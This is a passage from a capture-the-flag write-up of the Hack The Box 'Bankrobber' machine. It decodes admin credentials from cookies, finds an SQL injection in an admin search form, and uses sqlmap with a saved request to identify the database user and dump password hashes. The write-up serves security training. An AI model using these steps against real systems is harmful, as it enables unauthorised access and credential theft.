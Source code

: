 The cookies contains the admin's username and password Base64 encoded:

- Username: `admin`
- Password: `Hopelessromantic`

## Exploiting the SQLi

Once logged in as administrator, I see that there's a list of transactions, a search function for users and a backdoorchecker.

![](/assets/images/htb-writeup-bankrobber/web5.png)

The backdoorchecker is only accessible from the localhost because it returns the following message when I try any commands: `It's only allowed to access this function from localhost (::1). This is due to the recent hack attempts on our server.`

The search function contains an obvious SQL injection since I get the following error after sending a single quote: `There is a problem with your SQL syntax`

This should be easy to exploit with sqlmap.

I'll save one of the POST request from the search field in a `search.req` file:

```
POST /admin/search.php HTTP/1.1
Host: bankrobber.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://bankrobber.htb/admin/
Content-type: application/x-www-form-urlencoded
Content-Length: 6
Cookie: id=1; username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D
Connection: close
```

Then I run `sqlmap -r search.req` to start testing for injection points. As expected it quickly finds the injection point:

![](/assets/images/htb-writeup-bankrobber/sql1.png)

## Exploring with sqlmap

First I'll check which user the webapp is running as on the MySQL server: `sqlmap -r search.req --current-user`

```
current user: 'root@localhost'
```

I'm root so I should be able to get the passwords hashes with: `sqlmap -r search.req --passwords`

```
[*] pma [1]:
    password hash: NULL
[*] root [1]:
    password hash: *F435725A173757E57BD36B09048B8B610FF4D0C4
```
